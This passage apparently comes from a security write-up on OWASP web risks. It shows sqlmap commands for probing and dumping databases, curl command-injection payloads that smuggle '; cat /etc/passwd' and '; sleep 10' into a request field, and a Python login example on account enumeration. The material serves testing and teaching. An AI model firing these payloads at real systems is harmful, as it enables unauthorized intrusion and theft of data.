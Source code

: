 ### Testing with SQLmap

```bash
# Basic SQLi test
sqlmap -u "http://target.com/search?q=test" --batch

# Advanced testing with cookies
sqlmap -u "http://target.com/profile" \
  --cookie="PHPSESSID=abc123" \
  --data="id=1" \
  --dbs

# Dump specific database
sqlmap -u "http://target.com/search?q=test" \
  -D database_name \
  --tables
```

### Command Injection

```bash
# Test for command injection
curl -X POST "http://target.com/ping" \
  -d "host=127.0.0.1; cat /etc/passwd"

# Time-based detection
curl -X POST "http://target.com/ping" \
  -d "host=127.0.0.1; sleep 10"
```

## 🏗️ A04: Insecure Design

**Design flaws** that can't be fixed with implementation changes.

### Examples I've Found

- **Password reset** without rate limiting
- **Account enumeration** through different error messages
- **Business logic bypasses** in multi-step processes

```python
# Vulnerable: Account enumeration
def login(username, password):
    user = User.find_by_username(username)
    if not user:
        return "Username not found"  # Reveals valid usernames!

    if not user.check_password(password):
        return "Invalid password"

    return "Login successful"

# Secure: Generic error message
def login(username, password):
    user = User.find_by_username(username)
    if not user or not user.check_password(password):
        return "Invalid credentials"  # Generic message

    return "Login successful"
```
